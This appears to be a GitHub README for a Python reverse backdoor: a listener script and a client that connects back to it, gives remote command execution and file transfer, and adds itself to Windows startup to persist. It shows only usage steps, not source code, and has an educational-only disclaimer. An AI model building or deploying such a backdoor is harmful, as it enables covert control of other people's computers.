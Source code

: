 ## Reverse Backdoor

A reverse backdoor setup using Python, consisting of two scripts: a listener (`Listener.py`) that waits for incoming connections and a backdoor client (`reverse_backdoor.py`) that initiates a connection to the listener. This setup allows remote command execution on the compromised system.

### Script 1: Listener.py

#### Overview
`Listener.py` is designed to wait for incoming connections and execute commands remotely on the compromised system.

#### Key Features
- **Reliable Command Execution**: Remotely send and execute commands, such as file upload/download, directory changes, and shell commands.
- **Download/Upload File Handling**: Provides an option to upload files to or download files from the remote system.

#### Usage
1. **Configure the Listener IP and Port**: Update the IP address and port in the script where `my_listener = Listener("192.168.**.**", 4444)`.
2. **Run the Listener**:
   ```bash
   python Listener.py
   ```

### Script 2: reverse_backdoor.py

#### Overview
`reverse_backdoor.py` establishes a connection to `Listener.py` and allows for remote command execution.

#### Key Features
- **Persistence**: Automatically adds itself to the system startup on Windows for persistence.
- **Remote Command Execution**: Execute system commands, upload/download files, and change directories on the target machine.

#### Usage
1. **Configure the Listener IP and Port**: Update the IP address and port in the script where `my_backdoor = Backdoor("192.168.**.**", 4444)`.
2. **Run the Backdoor**:
   ```bash
   python reverse_backdoor.py
   ```

### Requirements
- **Python 3.x**
- **Permissions**: Run with administrator privileges for persistence and file access.

---

### Important Note

This project is for **educational purposes only**. Unauthorized use on any system without explicit consent is prohibited.

### Authors
- [Zaid Sabih](https://ie.linkedin.com/in/zaid-sabih-al-quraishi-5444a6127)
- [Uzoeshi Daniel](https://www.linkedin.com/in/daniel-ikenna-33b709235)
